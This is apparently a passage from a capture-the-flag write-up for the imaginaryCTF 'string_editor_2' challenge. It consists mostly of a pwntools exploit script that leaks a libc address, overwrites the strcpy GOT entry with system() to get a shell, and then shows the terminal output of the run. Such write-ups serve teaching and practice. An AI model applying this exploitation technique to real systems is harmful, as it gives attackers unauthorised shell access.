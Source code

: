 ```
print(target.recvuntil(b'3. Exit\n'))
target.sendline(b'2')

leak = target.recv(14)
print(leak)


libc_start_main = int(leak, 16) - 243
print(hex(libc_start_main))

libc_base = libc_start_main - libc.symbols['__libc_start_main']
system = libc_base + libc.symbols['system']
print(hex(system))

#Now to call system(/bin/sh)

payload = b'/bin/sh\x00'
for i in range(len(payload)):
	print(target.recvuntil(b'utils', timeout=1))
	target.sendline(str(i).encode('ascii')) 
	print(target.recvuntil(b'index?'))
	target.sendline(payload[i].to_bytes(1, 'little'))

payload = p64(system)

for i in range(6):
	print(target.recvuntil(b'utils', timeout=1))
	target.sendline(str(strcpy_got - target_global + i).encode('ascii'))
	print(target.recvuntil(b'index?'))
	target.sendline(payload[i].to_bytes(1, 'little'))
	
print(target.recvuntil(b'utils', timeout=1))
target.sendline(b'15')
print(target.recvuntil(b'3. Exit\n'))
target.sendline(b'2')

target.interactive()

```
And the results in the terminal look like this:
```
knittingirl@piglet:~/CTF/imaginaryCTF$ python3 string_editor_2_payload.py 
[+] Opening connection to chal.imaginaryctf.org on port 42005: Done
[*] '/home/knittingirl/CTF/imaginaryCTF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/knittingirl/CTF/imaginaryCTF/string_editor_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b'Welcome to StringEditor\xe2\x84\xa2!\nToday, you will have the AMAZING opportunity to edit a string!\nBut first, a word from our sponsors: 0x7fffff6c6f6c\n\nHere ya go! Your string is:\n***************\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n%**************\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
```